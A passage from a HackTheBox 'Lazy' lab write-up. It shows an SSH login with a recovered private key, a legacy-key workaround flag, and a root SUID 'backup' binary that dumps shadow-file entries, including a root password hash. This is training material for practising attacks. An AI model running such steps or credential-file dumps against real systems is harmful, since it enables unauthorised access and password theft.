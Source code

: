 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18
The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
ED25519 key fingerprint is SHA256:CA0BPc42eJXqPJR5d4JYc3o+PPHnj7L2JY/wf5q7ve8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.18' (ED25519) to the list of known hosts.
sign_and_send_pubkey: no mutual signature supported
mitsos@10.10.10.18: Permission denied (publickey).
```

At this point, I was super confused because for some reason SSH couldn’t work.

Luckily, I found a workaround [here](https://forum.hackthebox.com/t/valentine-ssh-trouble/253323/3) to add a flag of `-o PubkeyAcceptedKeyTypes=+ssh-rsa` when using SSH.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18 -o PubkeyAcceptedKeyTypes=+ssh-rsa
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Apr 25 06:23:17 EEST 2022

  System load: 0.0               Memory usage: 4%   Processes:       192
  Usage of /:  48.3% of 2.76GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Dec  7 17:41:53 2021 from 10.10.14.22
mitsos@LazyClown:~$ 
```

# Privilege Escalation

Looking around the files, it seems like there’s an interesting root SUID binary file `backup`. 

```bash
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7 17:43 .
drwxr-xr-x 3 root   root   4096 Dec  7 16:27 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7 16:27 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7 17:43 cat
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7 16:27 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7 16:27 .ssh
-r--r--r-- 1 mitsos mitsos   33 Apr 25 06:23 user.txt
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
```